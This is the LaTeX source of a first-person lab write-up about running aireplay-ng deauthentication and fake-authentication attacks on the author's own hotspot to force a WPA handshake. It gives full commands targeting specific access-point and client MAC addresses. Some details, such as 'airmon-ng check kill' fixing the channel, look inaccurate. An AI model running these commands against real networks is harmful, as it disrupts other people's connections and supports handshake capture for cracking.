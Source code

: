 \documentclass[12pt,a4paper]{article}
\begin{document}
I ran a deauth attack against my own hotspot to force clients to reconnect and trigger the WPA handshake. No other devices were affected.

\subsubsection{Broadcast Deauthentication}

First, a broadcast deauth targeting all clients of the AP:

\begin{lstlisting}
sudo aireplay-ng -0 5 -a A6:8E:DC:82:EB:7B wlp2s0mon
\end{lstlisting}

This sends five deauth frames to the broadcast address, disconnecting all clients.

\subsubsection{Directed Deauthentication}

The first directed attempt failed because the monitor interface was on channel 13 instead of channel 6:

\begin{lstlisting}
sudo aireplay-ng -0 5 -a A6:8E:DC:82:EB:7B -c 14:5A:FC:81:7E:1D wlp2s0mon
\end{lstlisting}

Running \texttt{airmon-ng check kill} fixed the channel. The next attempt, against \texttt{24:EB:16:56:E1:CC}, worked:

\begin{lstlisting}
sudo aireplay-ng -0 5 -a A6:8E:DC:82:EB:7B -c 24:EB:16:56:E1:CC wlp2s0mon
\end{lstlisting}

\texttt{aireplay-ng} got 63 ACKs out of 67, confirming the client received the frames.

A continuous attack (\texttt{-0 0}) ran for five minutes. ACK counts varied as the client repeatedly tried to reconnect.

\subsubsection{Fake Authentication Attempt}

I also attempted a fake authentication:

\begin{lstlisting}
sudo aireplay-ng -1 0 -a A6:8E:DC:82:EB:7B -c 24:EB:16:56:E1:CC wlp2s0mon
\end{lstlisting}
\end{document}
